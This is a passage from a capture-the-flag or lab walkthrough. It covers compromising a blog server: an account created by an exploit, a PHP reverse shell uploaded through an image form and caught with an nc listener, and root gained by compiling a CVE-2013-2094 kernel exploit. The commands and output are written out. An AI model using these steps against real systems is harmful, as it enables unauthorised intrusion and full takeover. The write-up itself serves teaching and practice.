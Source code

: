 ```
[+] Successfully reset original password hash.
[+] Successfully removed /images/ej9LGSWhFlLpOIFwBjA9.php
[*] Calling payload: /images/CPJGAzEtG48Qmkhh8XYf.php
[+] Successfully removed /images/CPJGAzEtG48Qmkhh8XYf.php
[*] Exploit completed, but no session was created.
```
This means that it created an account called `YekxdE` with the password `9oWqbA`. We can login to this account on the blog website. Once logged in, head to the `Upload Image` section. We can not only upload images, but reverse shells as well! I copied the php reverse shell located at `/usr/share/webshells/php/php-reverse-shell.php`. We can edit the file with our IP address and the port we chose. Once this file is uploaded, it can be found at the `/blog/images` folder which we discovered when we did a dirsearch on the `blog` directory. Set up a listener, and click the file!

```
kali@maxtor:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.221.42] from (UNKNOWN) [192.168.221.224] 40721
Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
 06:02:11 up  1:58,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ 
```

Once we have shell access, I like to download the `linux-exploit-suggester.sh` tool on the victim's machine. Once it is downloaded and hasthe sufficient priviliges to run, it will give you exploits that may work on the target for privesc. The exploit that worked for me was [CVE:2013-2094](https://www.exploit-db.com/exploits/25444). After compiling the file with `gcc -O2 exploit.c`, I got root access!

```
www-data@web:/tmp$ gcc -O2 exploit.c                  
www-data@web:/tmp$ ls
a.out  exploit.c	linux-exploit-suggester.sh
www-data@web:/tmp$ ./a.out
2.6.37-3.x x86_64
sd@fucksheep.org 2010
root@web:/tmp# whoami; id                                                                                          
root
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Thank you for reading this writeup, and I hope you learned as much as I did. I felt that this was easier than the pervious challange and required a bit less effort, but I would still rate it a solid 10/10 for the awesome design of the challange. Thanks again for visiting this writeup, and I hope to see you again!
